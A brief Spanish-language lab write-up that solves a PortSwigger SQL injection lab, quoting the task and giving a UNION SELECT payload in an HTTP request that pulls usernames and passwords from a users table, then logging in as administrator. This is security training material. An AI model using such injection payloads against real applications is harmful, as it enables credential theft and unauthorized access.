 # 3 - Retrieving data from other tables

> This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
>
>  The database contains a different table called `users`, with columns called `username` and `password`.
>
>  To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

SImilar a los anteriores cambio la categoria pero para incluir usuario y contraseña de la tabla de users.

`GET /filter?category=Accesories'+UNION+SELECT+username+,+password+FROM+users-- HTTP/1.1`

![](../../../.gitbook/assets/imagen%20%28619%29.png)

Nos logeamos y listo.

**Nota clave: la coma entre username y password**


